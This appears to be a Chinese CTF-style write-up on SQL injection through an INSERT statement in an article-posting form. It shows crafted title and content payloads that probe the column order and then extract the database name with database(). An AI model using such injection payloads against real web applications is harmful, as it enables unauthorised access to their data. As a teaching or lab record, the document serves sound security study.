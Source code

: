 猜测插入语句应该最少三项

insert into artical(..,title,content,usename,time)value(...,'aa','aa','aa','2024')

#### 方式一：注释未过滤

构造验证:

```
title=aa&content=aa')#      失败

语法    insert into artical(...,title,usename,content,time)value(...,'aa','aa','aa','2024')#
```

```
title=aa&content=aa','')#        成功

语法    insert into artical(...,title,usename,content,'')value(...,'aa','aa','aa','')#
```

测试**content字段是倒数第二个**

![image-20241126150951524](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126150951524.png)

添加一项后，新发表的文章没有更新，证明**最后一个字段是usename校验**

```
语法    insert into artical(title,...,content,usename)value('aa','aa','aa')#
```

但是usename之前不知道有几个字段，即前引号不受控制，content不能作为注入点

![image-20241126152316660](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126152316660.png)

usename不是回显点，不能在该页面输出，因此也不能作为注入点

继续验证title字段

```
title=zzz','aaa','a')#&content=aaa       成功

语法    insert into artical(..,title,content,usename)value(...,'zzz','aaa','a')#
```

![image-20241126153208615](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126153208615.png)

证明**title是倒数第三个字段**

即    `title=title,contnet,username#&content=aaa`, 其中content可作为**注入点**

```
title=zzz',database(),'a')#&content=aaa     执行成功
```

爆数据库名

![image-20241126154612526](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126154612526.png)

爆表时失败，是因为对**+没有替换为空格**
